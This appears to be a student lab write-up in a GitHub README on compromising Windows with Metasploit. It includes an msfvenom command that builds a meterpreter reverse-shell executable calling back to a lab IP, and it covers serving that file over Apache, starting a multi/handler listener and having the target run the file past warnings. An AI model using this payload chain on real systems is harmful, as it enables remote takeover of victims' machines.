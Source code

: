 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/241e38d4-48ea-4e84-844c-203800b748ab)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9a5df072-ea93-4d78-b19d-0b538abd2afe)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fa436c58-1533-42ad-953e-05aab7679b33)

Start apache server sudo systemctl apache2 start
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/79b3ed4f-2e95-4c10-9308-3c931e3f9b07)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fcc713e4-2884-489f-9682-8b418e6071df)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/afb1606a-460c-4142-840f-2c5eca6de9df)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/5485dcda-63dc-46fc-9e17-982b7fb666c1)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/e65719b5-a0a3-4791-8179-01f60ef680d4)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9e462cee-0922-46b0-bbdc-5eec4b3493fb)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/465816f7-7f2d-4cd1-9ec1-a37730d2ac72)

On kali give the command exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9c28793a-9789-45b3-93b9-73328162f9a3)





## OUTPUT:





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
